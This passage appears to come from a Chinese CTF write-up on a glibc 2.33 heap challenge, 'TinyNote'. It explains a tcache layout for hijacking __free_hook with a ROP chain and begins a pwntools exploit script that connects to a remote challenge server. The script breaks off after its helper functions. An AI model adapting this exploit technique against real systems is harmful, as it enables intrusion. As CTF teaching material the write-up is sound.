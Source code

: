 这里挑选的 `rdx` 值为 `heap+0x40`，因为这个位置及不会影响 `0x20` 的 `tcachebin`，也不会影响后续存放 `ROP` 链，以及最终劫持 `__free_hook` 所需的 `tcache bin`。接下来将这些值一个个插入进去就能够完成构造。

完整exp：

```plain
#encoding:utf-8
from pwn import *
import re

ip = '82.157.6.175'
port = 24200 
local = 0
filename = './TinyNote'
PREV_INUSE = 0x1
IS_MMAPPED = 0x2
NON_MAIN_ARENA = 0x4

def create_connect():
    global io, elf, libc, libc_name

    elf = ELF(filename)
    context(os=elf.os, arch=elf.arch)

    if local:
        io = process(filename)
        if elf.arch == 'amd64':
            libc_name = '/lib/x86_64-linux-gnu/libc.so.6'
        elif elf.arch == 'i386':
            libc_name = '/lib/i386-linux-gnu/libc.so.6'
    else:
        io = remote(ip, port)
    try:
        libc_name = 'libc-2.33.so'
        libc = ELF(libc_name)
    except:
        pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def add(idx):
    sa(b'Choice:', b'1')
    sa(b'Index:', str(idx).encode())


def edit(idx, content):
    sa(b'Choice:', b'2')
    sa(b'Index:', str(idx).encode())
    sa(b'Content:', content.encode() if isinstance(content, str) else content)

def show(idx):
    sa(b'Choice:', b'3')
```